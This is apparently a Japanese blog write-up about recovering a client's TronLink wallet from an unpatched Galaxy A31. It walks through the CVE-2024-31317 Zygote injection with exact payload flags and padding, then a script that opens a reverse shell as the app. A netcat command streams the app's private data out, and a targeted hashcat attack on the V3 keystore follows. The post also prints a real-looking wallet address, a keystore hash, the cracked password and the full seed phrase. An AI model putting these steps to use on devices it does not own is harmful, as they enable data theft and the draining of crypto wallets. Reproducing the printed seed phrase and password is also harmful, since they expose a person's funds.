







+++
title = "AndroidのexploitとブルートフォースでTRONウォレットを復旧した話"
date = "2026-03-22T03:00:00-03:00"
readingTime = true
+++

よくある依頼が来た。TRONのウォレットがスマホに入っているが、seed phraseは何年も前にどこかへ消え、アプリのパスワードも思い出せない。資金はブロックチェーン上に見えているのに使えない。幸い、スマホはまだ手元にあり、何も消していない。報酬を決めて、何ができるか調べ始める。



<!--more-->

こういうケースではまず全部メモする。どんな小さいことでもヒントになるかもしれない：

- 機種: Galaxy A31
- Android: 12
- 最終アップデート: 2024年1月
- アプリ: TronLink Pro
- パスワードルール: 最低8文字、大文字1つ、小文字1つ、数字1つ

クライアントにパスワードについて覚えていることを全部聞き出す。単語、数字、記号、名前、ニックネーム、家族、日付、パターン、何でもいい。アプリを開いて手動でいくつか試すと、数回で1時間ロックされた。


この方法では無理なので、作業を2つに分ける：

1. **暗号化されたウォレットを壊さずにスマホから抜き出す**
2. **PCに持ってきてオフラインでパスワードをcrackする**（UIのrate limitなし）

ここで書いている内容はすべてこのリポジトリに再現してある：

[https://github.com/astrovm/2026-03-tronlink-wallet-recovery-reference](https://github.com/astrovm/2026-03-tronlink-wallet-recovery-reference)

## フェーズ1: スマホからウォレットを抜き出す

TronLinkの機密データはアプリのプライベートディレクトリに保存されている：

```text
/data/data/com.tronlinkpro.wallet
```

このディレクトリにアクセスできるのはアプリ自身とrootだけ。もちろんスマホはroot化されていない。root化も選択肢にならない。Samsung端末の多くはbootloaderのアンロックで全データが消えるからだ。

Androidの初期はメーカーがアンロックを許可しておらず、各バージョン固有の脆弱性に頼ってrootを取っていたから、データを失わずにroot化するのが普通だった。今はデフォルトで全消去する公式の方法が使われている。

### rootなしで侵入する方法を探す

まず既知の脆弱性を探すのが筋だ。ここで運がいい。Galaxy A31のソフトウェアはかなり古い。Android 12、セキュリティパッチは2024年1月。つまり2年分の公開済み脆弱性がパッチされずに残っている。さあ、この手の仕事で一番楽しいところだ。

Grokに聞きながら **CVE-2024-31317** にたどり着いた。`ZygoteProcess.java`のバグで、2024年6月にパッチされたもの。このexploitを使うとデバイス上の**任意のアプリ**の権限でコードを実行できる。rootは不要。`adb`さえあればいい。このexploitはOxygenなどのフォレンジックソフトでも使われていて、世界中の警察や情報機関がスマホからデータを抽出するのに利用している。

Galaxy A31はこのパッチを受け取っていないので、exploitが効く。よし。まず仕組みを理解するところからだ。


### exploitの仕組み

このバグを理解するには別のところから始める必要がある。Androidには`hidden_api_blacklist_exemptions`（`Settings.Global`内）というグローバル設定がある。Googleが特定のシステムアプリに対して、隠しAPIへの制限なしアクセスを許可するために使うものだ。`adb shell`から書き込めるのは、このコンテキストが既に`WRITE_SECURE_SETTINGS`権限を持っているからだ。

で、この設定を読むのは誰か？ **Zygote**だ。ZygoteはAndroidのユーザランドで全アプリを起動する特権プロセス。アプリを一から作る代わりに、ランタイムをプリロード済みのZygoteが自身をforkして、その子プロセスが必要なアプリに変身する。カーネルとアプリの間にいるため、非常にセンシティブなポイントだ。

バグの核心は、Zygoteが`hidden_api_blacklist_exemptions`の値を**改行をサニタイズせずに**受け取ること。設定値に`\n`を入れれば、Zygoteプロトコルに完全なコマンドをインジェクションできる。Zygoteは自分のUIDを変更できるので、`--setuid`、`--setgid`、`--app-data-dir`、`--package-name`といったコマンドを受け付ける。つまり「TronLink**として**プロセスを起動しろ」と指示できる。そしてZygoteはその通りにする。生成されたプロセスはアプリの正確なアイデンティティを持ち、プライベートファイルへの完全なアクセス権がある。

ただし、設定を書き込むだけでは不十分。Zygoteは自動的に再読み込みしない。AndroidのSettingsアプリを強制再起動する必要がある（`am force-stop com.android.settings`してから`am start`）。Settingsが起動すると、ソケット経由でグローバル設定をZygoteに再送し、そこでZygoteが変更された値をパースしてインジェクションされたコマンドを実行する。

さらに厄介なことに、Android 12以降でGoogleは`NativeCommandBuffer`を追加した。余分なバイトをドロップするバッファだ。payloadを直接送ると、バッファが一杯になって全部捨てられる。解決策は、まず約8192バイトのpaddingを送ってflushを強制し、本体の引数が別の書き込みで届くようにすること。

これが動くにはAndroid 9-14で2024年6月のパッチが未適用、かつ`adb shell`（デフォルトで`WRITE_SECURE_SETTINGS`を持っている）が必要。重要な注意点：設定を変更したままスマホを再起動すると**boot loop**に入る。だから後始末は絶対にやらなきゃダメ。

このリポジトリにはめちゃくちゃ助けられた：

- [https://github.com/agg23/cve-2024-31317](https://github.com/agg23/cve-2024-31317)
- [https://github.com/Anonymous941/zygote-injection-toolkit](https://github.com/Anonymous941/zygote-injection-toolkit)

### まずエミュレータで試す

実機を触る前に、同じ環境を再現するエミュレータを立ち上げる。


同じバージョンのTronLinkをインストールし、テスト用ウォレットを作成して、exploit全体を再現していく。

`adb`からエミュレータが見えることを確認：

```bash
adb devices
```

Output:

```text
List of devices attached
emulator-5554   device
```

TronLinkのUIDを取得：

```bash
adb shell pm dump com.tronlinkpro.wallet | grep userId
```

Output:

```text
    userId=10145
```

Geminiの力も借りて`zygote-injection-toolkit`のバグをいくつか直して、今回のケースに合わせた。payloadにはZygoteにTronLinkのアイデンティティでプロセスを起動させるための正確なフラグが必要：

- `--setuid`と`--setgid`にアプリのUID
- `--setgroups=3003`（inet、プロセスがソケットを使えるようにするため）
- `--app-data-dir=/data/user/0/com.tronlinkpro.wallet`
- `--package-name=com.tronlinkpro.wallet`
- `--target-sdk-version=30`
- `--is-top-app`
- `--seinfo=default:targetSdkVersion=30:complete`



これらすべてを`repro.py`にまとめた。Android 12+用のpaddingを含むpayloadを組み立て、`adb shell`経由でインジェクションし、Settingsの再起動を強制して読み込みをトリガーし、localhostでnetcatが起動するのを待つ。うまくいけば、TronLinkのアイデンティティでreverse shellが得られる。失敗したら、スマホを壊さないように設定をクリーンアップする。

```bash
uv run repro.py --uid 10145 --gid 10145
```

Output:

```text
Injecting payload for UID 10145 and package com.tronlinkpro.wallet...
Injection sent. Waiting for listener...
Listener is UP!
```

`Listener is UP!`。動いた。入れることが確認できた。あとは本番の実機でやるだけ。ミスできない。

### 完全なdumpを抽出する

実機でも同じ手順を再現する。同じステップ、同じスクリプト。動いた。中に入れた。

ファイルを一つずつ取る代わりに、全部まとめて圧縮してPCに`netcat`で直接送る：

```bash
printf "tar -czC /data/data/com.tronlinkpro.wallet . | base64; exit\n" | nc 127.0.0.1 1234 | base64 -d > recovery.tar.gz
```



これでアプリデータ全体を取得：`shared_prefs`、`databases`、全部。正しく届いたか確認する：

```bash
mkdir -p recovery
tar -xzf recovery.tar.gz -C recovery
ls -l recovery/shared_prefs/carlitosmenem991.xml
```

Output:

```text
-rw-rw-r-- 1 astro astro 2738 Mar 21 02:34 recovery/shared_prefs/carlitosmenem991.xml
```

完璧。全部揃った。フェーズ1完了。クライアントのスマホはroot化なし、bootloaderアンロックなし、何も壊さずにそのまま。必要なものは全てPCに入った。

## フェーズ2: オフラインでパスワードをcrackする

ここが全部パーになるかどうかの勝負どころだ。dumpを調べて、鍵となるファイルはこれ：

```text
recovery/shared_prefs/carlitosmenem991.xml
```

中身は全部入っている：

- `wallet_name_key`: `carlitosmenem991`
- `wallet_address_key`: `TFbkzYHUvCVuybLKRQuDQmpNYw3HaViyvd`
- `wallet_keystore_key`: 暗号化されたkeystore（秘密鍵、パスワードで保護）
- `wallet_newmnemonic_key`: 暗号化されたseed phrase（同じパスワードで保護）

dump内の他のXMLと照合して正しいウォレットであることを確認する：

- `f_TronKey.xml`で、`selected_wallet_key`が`carlitosmenem991`を指している
- `f_Tron_3.8.0.xml`で、`key_recently_wallet`にも`carlitosmenem991`がリストされている

### 暗号化の仕組み

TronLinkはEthereumウォレットと同じスキーム（V3 keystore）を使っている。パスワードは**scrypt**（n=16384, r=8, p=1、意図的に遅くメモリを食う）を通り、32バイトが生成される。前半16バイトが**AES-128-CTR**で秘密鍵を暗号化し、後半16バイトが**MAC**（keccak256）を生成してkeystoreに保存される。

候補をテストするにはscryptを実行し、MACを計算して、保存されているものと比較する。問題はscryptが設計上重いこと：良いGPUでも毎秒数千回程度で、MD5のように数十億回とはいかない。だからどのパスワードを試すかが非常に重要になる。

### Hashcat用にhashを抽出する

`tools/extract_hash.py`を作成。XMLを読み、keystoreのJSONを取り出し、Hashcatが理解するフォーマット（モード15700、Ethereum wallet）に変換する：

```bash
uv run tools/extract_hash.py recovery/shared_prefs/carlitosmenem991.xml > target.hash
cat target.hash
```

Output:

```text
$ethereum$s*16384*8*1*2ef2a618edbf5185c6e7062a39d5dcdb81ba683dc2f8ca01ce8ed8c5959bb12c*cc8bab0bc8701e9af687a4b4b6b527f962de582efb029b507fc90cfc393ecfd5*ffcf36eb0aaee16f676049a12307e247a868133dbd1d8c956cee6682f54b0704
```

実データに取りかかる前に、エミュレータのテスト用ウォレットでフロー全体を検証。完璧に動いたので、クライアントのデータで繰り返す。

### 人間のパターンを攻撃する

scryptがある以上、純粋なbrute forceは現実的でない。全組み合わせを試すと文字通り何年もかかる。幸い人間はランダムなパスワードを作らない。名前、日付、ニックネーム、自分にとって意味のあるものを使う。だからクライアントから聞いた情報とXMLから得た情報を全部まとめる。

クライアントからは家族の名前、ニックネーム、姓を得た：carlos、carlitos、turco、zulemita、menem、saul。意味がありそうな数字：7、91、991、1991。よく使われる記号：#、.、!、@。dumpからはウォレット名（`carlitosmenem991`）を既に持っていた。

Codexの助けを借りてPythonのフレームワーク`smart_recovery/`を構築。これらの種（seed）を全て受け取り、確率が高い順にソートされたwordlistを生成する。ウォレットのルール（8文字以上、大文字・小文字・数字）を満たさないものは除外するので、あり得ない組み合わせに時間を無駄にしない。



考え方としては、優先度別にパターンファミリーを生成し、確率の高いものから消化してからbrute forceに落ちるようにする。いくつかのファミリー：

| ファミリー | パターン | 例 |
|---|---|---|
| `compose.name-number` | 名前 + 数字 | `Carlitos7`, `Turco1991`, `Zulemita91` |
| `compose.name-extension-number` | 名前 + 姓 + 数字 | `CarlitosMenem7`, `Turcosaul991`, `Carlossaul91` |
| `compose.name-number-symbol` | 名前 + 数字 + 記号 | `Carlitos7!`, `Turco1991#`, `Zulemita7@` |
| `mutate.toggle-case-*` | 上記の全大文字小文字バリエーション | `tURCOSAUL7`, `tuRcosaul7`, `CARLITOS7!` |

各ファミリーは大文字小文字のバリエーション（`carlitosmenem`、`CarlitosMenem`、`Carlitosmenem`）、順序（`Turco7`、`7Turco`）、オプションの記号（`Turcosaul7`、`Turcosaul7!`、`Turcosaul!7`）を生成する。`mutate.*`ファミリーはさらに踏み込んで、hashcatのルールを使い、wordlistを展開せずにGPU上で直接大文字小文字の全組み合わせを試す。フレームワークは実行間で状態を保存するので、同じ作業を繰り返さない。

Hashcatに投げて、寝る。



検証やテスト、各種実行を含めて約30時間後…出た。ヒットしたファミリー：

```text
compose.name-extension-number
```

ニックネーム + 二番目の姓 + 数字。"Turco" + "saul" + "7" = `Turcosaul7`。



リポジトリの例では、完全な実行はこうなる：

```bash
uv run -m smart_recovery run --hash-file target.hash --seed-file note_seeds.json --recovery-root recovery
```

Output:

```text
$ethereum$s*16384*8*1*2ef2a618edbf5185c6e7062a39d5dcdb81ba683dc2f8ca01ce8ed8c5959bb12c*cc8bab0bc8701e9af687a4b4b6b527f962de582efb029b507fc90cfc393ecfd5*ffcf36eb0aaee16f676049a12307e247a868133dbd1d8c956cee6682f54b0704:Turcosaul7
```

## フェーズ3: seedを復元して資金を回収する

パスワードが手に入れば、あとはもう流れ作業だ。同じパスワードがkeystoreとmnemonicの両方を保護しているので、片方が分かれば全部手に入る。



`tools/decrypt_mnemonic.py`を作成。XMLから暗号化されたmnemonicを読み取り、パスワードで復号してseed phraseを出力する。

```bash
uv run tools/decrypt_mnemonic.py recovery/shared_prefs/carlitosmenem991.xml Turcosaul7
```

Output:

```text
stock dirt cat upset chat giraffe page blade face slush volcano dawn
```

別のデバイスにウォレットをインポートして、資金を引き出す。

---

結局、いろんなことがうまく噛み合った結果だった。スマホが時間を乗り越えて生き残り、Androidがパッチされておらず、exploitが何も壊さずに動き、パスワードが人間の予測可能なパターンに従っていて、クライアントが検索空間を絞れるだけのヒントを覚えていた。

これらのどれか一つでも違っていたら、資金は永遠にそこで動かせないままだっただろう。だからseedはちゃんと管理しとけ。次は都合のいいCVEがあるとは限らないぞ。

## 参考文献

- [Android Security Bulletin 2024年6月](https://source.android.com/docs/security/bulletin/2024-06-01)
- [CVE-2024-31317 (NVD)](https://nvd.nist.gov/vuln/detail/CVE-2024-31317)
- [AOSPパッチ](https://android.googlesource.com/platform/frameworks/base/+/e25a0e394bbfd6143a557e1019bb7ad992d11985)
- [CVE-2024-31317に関するGitHubまとめ](https://github.com/agg23/cve-2024-31317)
- [Zygote Injection Toolkit](https://github.com/Anonymous941/zygote-injection-toolkit)
- [本ケースのリポジトリ（例とツール付き）](https://github.com/astrovm/2026-03-tronlink-wallet-recovery-reference)
